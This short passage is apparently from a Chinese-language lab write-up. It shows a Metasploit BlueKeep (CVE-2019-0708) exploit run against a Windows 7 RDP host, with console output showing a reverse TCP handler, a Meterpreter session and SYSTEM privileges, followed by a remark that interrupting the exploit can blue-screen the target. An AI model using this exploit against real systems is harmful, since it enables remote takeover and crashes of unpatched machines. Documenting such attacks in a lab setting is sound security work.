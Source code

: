 run

```shell
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > run

[*] Started reverse TCP handler on 192.168.43.155:4444 
[*] 192.168.43.63:3389 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.43.63:3389 - Using auxiliary/scanner/rdp/cve_2019_0708_bluekeep as check
[+] 192.168.43.63:3389    - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.43.63:3389    - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.43.63:3389 - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.43.63:3389 - Using CHUNK grooming strategy. Size 250MB, target address 0xfffffa8013200000, Channel count 1.
[!] 192.168.43.63:3389 - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.43.63:3389 - Surfing channels ...
[*] 192.168.43.63:3389 - Lobbing eggs ...
[*] 192.168.43.63:3389 - Forcing the USE of FREE'd object ...
[!] 192.168.43.63:3389 - <---------------- | Leaving Danger Zone | ---------------->
[*] Sending stage (200774 bytes) to 192.168.43.63
[*] Meterpreter session 3 opened (192.168.43.155:4444 -> 192.168.43.63:49327) at 2023-12-07 20:22:48 +0800

meterpreter > 
```

```shell
meterpreter > sysinfo
Computer        : USER-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : zh_CN
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

可以看到当时在run的是很脚本有提示一个进入危险区，如果在这时候强制结束脚本设备就会蓝屏，当然可能也不需要手动结束，网络不稳定，传输不稳定，都有可能导致蓝屏
